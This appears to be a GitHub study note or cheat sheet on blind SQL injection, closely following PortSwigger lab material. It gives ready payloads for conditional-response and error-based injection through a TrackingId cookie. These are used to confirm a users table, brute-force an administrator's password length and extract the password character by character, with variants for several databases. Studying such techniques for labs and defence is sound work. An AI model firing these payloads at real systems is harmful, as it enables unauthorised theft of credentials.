 # Blind SQL injection

Blind SQL injection occurs when an application is vulnerable to SQL injection, but its HTTP responses do not contain the results of the relevant SQL query or the details of any database errors.

Many techniques such as UNION attacks are not effective with blind SQL injection vulnerabilities. This is because they rely on being able to see the results of the injected query within the application's responses. It is still possible to exploit blind SQL injection to access unauthorized data, but different techniques must be used.

### Table of Content

- [Condition responses](#exploiting-blind-sql-injection-by-triggering-conditional-responses)
    - [Verfy tab and column](#verf-tab-and-column)
    - [Calcul the length of the password](#calcul-the-length-of-the-password)
    - [Brut force password](#brut-force-password)
- [Error-based SQL injection](#error-based-sql-injection)
    - [Length of the password](#length-of-the-password)
    - [Extract password](#extract-password)
- [Extraction sensitive data via verbose SQL error messages](#extraction-sensitive-data-via-verbose-sql-error-messages)

## Exploiting blind SQL injection by triggering conditional responses

Consider an application that uses tracking cookies to gather analytics about usage. Requests to the application include a cookie header like this:

`Cookie: TrackingId=u5YD3PapBcR4lN3e7Tj4`
When a request containing a TrackingId cookie is processed, the application uses a SQL query to determine whether this is a known user:

```sql
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'u5YD3PapBcR4lN3e7Tj4'
```
This query is vulnerable to SQL injection, but the results from the query are not returned to the user. However, the application does behave differently depending on whether the query returns any data. If you submit a recognized TrackingId, the query returns data and you receive a "Welcome back" message in the response.

This behavior is enough to be able to exploit the blind SQL injection vulnerability. You can retrieve information by triggering different responses conditionally, depending on an injected condition.

To understand how this exploit works, suppose that two requests are sent containing the following TrackingId cookie values in turn:

```sql
…xyz' AND '1'='1
…xyz' AND '1'='2
```

- The first of these values causes the query to return results, because the injected AND '1'='1 condition is true. As a result, the "Welcome back" message is displayed.
- The second value causes the query to not return any results, because the injected condition is false. The "Welcome back" message is not displayed.

If nothing as changed goto [error-based](#error-based-sql-injection).

For example, suppose there is a table called Users with the columns Username and Password, and a user called Administrator. You can determine the password for this user by sending a series of inputs to test the password one character at a time.

### Verf tab and column:

You did verify if the injection worked well, and manage to see the diff between error and valid item. 

Now if you are looking for password of a special user:

:warning: payload could be different due to the version of SQL: [cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)

- Verif tab users:

`TrackingId=xyz' AND (SELECT 'a' FROM users LIMIT 1)='a`

- Verif column username with adminstrator: 

`TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator')='a`

### calcul the length of the password: 

```sql
' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)=1) = 'a
```

Brute force the length and look for change when the AND return true

### Brut force password

:warning: Oracle syntax for `SUBSTRING` is `SUBSTR('foo', 1, 1)`

```sql
AND SUBSTRING((SELECT password FROM users WHERE username = 'administrator'), 1, 1) = 'a
```

## Error-based SQL injection

Error-based SQL injection refers to cases where you're able to use error messages to either extract or infer sensitive data from the database, even in blind contexts.

To see how this works, suppose that two requests are sent containing the following TrackingId cookie values in turn:

:warning: Syntax can be different from diff SQL

```sql
-- Oracle 
SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN TO_CHAR(1/0) ELSE NULL END FROM dual 

-- Microsoft 
SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/0 ELSE NULL END

-- PostgreSQL 
1 = (SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/(SELECT 0) ELSE NULL END)

-- MySQL
SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM information_schema.tables),'a') 
```

These inputs use the CASE keyword to test a condition and return a different expression depending on whether the expression is true:

With the first input, the CASE expression evaluates to 'a', which does not cause any error.

With the second input, it evaluates to 1/0, which causes a divide-by-zero error.

If the error causes a difference in the application's HTTP response, you can use this to determine whether the injected condition is true.

### Length of the password

ORACLE EX:

```sql
' AND (SELECT CASE WHEN (LENGTH(password)<1) THEN TO_CHAR(1/0) ELSE 'a' END FROM users WHERE username='administrator')='a' --
```

This should not throw an error but should if you invert `<` with `>`

Brut force with burp changing the sign of the operation with `=`, and when it throw an error, it mean you found the length.

### Extract password

Using this technique, you can retrieve data by testing one character at a time:

:warning: Oracle syntax for `SUBSTRING` is `SUBSTR('foo', 1, 1)`

```sql
xyz' AND (SELECT CASE WHEN (Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') THEN 1/0 ELSE 'a' END FROM Users)='a

-- Oracle
xyz' AND (SELECT CASE WHEN (SUBSTR(password, 1, 1) = 'a') THEN TO_CHAR(1/0) ELSE 'a' END FROM users WHERE username='administrator')='a' --
```

## Extraction sensitive data via verbose SQL error messages



---

[**:arrow_right_hook: Back home**](/README.md)